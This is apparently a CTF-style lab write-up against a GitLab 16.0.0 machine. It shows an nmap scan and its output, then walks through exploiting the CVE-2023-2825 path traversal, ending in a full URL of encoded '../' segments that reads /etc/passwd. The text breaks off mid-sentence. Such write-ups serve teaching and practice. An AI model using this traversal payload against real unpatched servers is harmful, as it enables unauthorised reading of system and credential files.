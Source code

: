 # Writeup

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
sudo nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69

# Output
# Nmap 7.94SVN scan initiated Mon Dec 16 11:33:36 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69
Nmap scan report for 10.129.229.69
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f3:e8:cf:2e:39:5f:c9:c8:f1:e8:97:a8:04:6a:28:c2 (RSA)
|   256 9b:8a:64:29:f0:b8:c3:c0:4c:55:f0:78:27:ce:c5:86 (ECDSA)
|_  256 c8:2b:18:14:bd:77:2b:0c:68:f6:c3:cb:92:46:34:66 (ED25519)
80/tcp   open  http    nginx
|_http-favicon: Unknown favicon MD5: 66F9A1C3F2CFD0DF1B570990E86D3095
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.229.69/users/sign_in
8060/tcp open  http    nginx 1.20.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.20.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 16 11:34:12 2024 -- 1 IP address (1 host up) scanned in 36.71 seconds
```

# HTTP (Port 80)

Port 80 on this box is hosting GitLab, I create an account so I can access more of the application before browsing the site. 

After registering an account, the help page displays the current version installed on this machine: v16.0.0.

![image](https://github.com/user-attachments/assets/a7ac5104-a772-46bb-9880-4d69b2bd56e8)

This version has a prominant vulnerability: **[CVE-2023-2825](https://www.getastra.com/blog/vulnerability/cve-2023-2825/#:~:text=About%20CVE%2D2023%2D2825,and%20Enterprise%20Edition%20version%2016.0.)**

This vulnerability is a Path Traversal vulnerability, it requirews you to create 10 nested group and then create a propject in the final group. In this group you can raise an issue with an attachment, the response to this request will give you the file path for the upload, this is where the path traversal vulnerability lies. 

The followin 2 guides were used to exploit this vulnerability:
[Juniper Guide](https://blogs.juniper.net/en-us/threat-research/cve-2023-2825-gitlab-arbitrary-path-traversal-vulnerability)
[Occamsec Guide](https://occamsec.com/exploit-for-cve-2023-2825/)

A public PoC can be found here:
[Public Exploit PoC](https://github.com/Occamsec/CVE-2023-2825)

A minimum of 10 groups are needed, this is the number needed to reach the base directory, this is because on a standard Gitlab install, file attachments are uploaded to `/var/opt/gitlab/gitlab-rails/uploads/@hashed/<a>/<b>/<secret>/<secret>/<file>`. I'm assuming there is a rule in the code allowing you to traverse the number of groups back. The 10 groups and project can be seen below:

![image](https://github.com/user-attachments/assets/b3b04139-ff2d-4887-9935-b53aace61a44)

From here I can upload anydocument to an issue on that project and see in the response the file path.

```text
"note":"[testDoc.txt](/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt)
```

I can append this to the URL to view the file, the full URL in this example would be:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt
```

It is this URL I can exploit, by using path traversal to access files instead of test Doc.txt. The rule in this exploit is to traverse the number of groups + 1, in this case that will be 11. Forward slashes must also be URL encoded. The full attack URL ends up:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

This traverses to the base directory and accesses /etc/passwd:

![image](https://github.com/user-attachments/assets/02fad883-6a92-4b18-958f-3d16d518b900)

We can now use this 
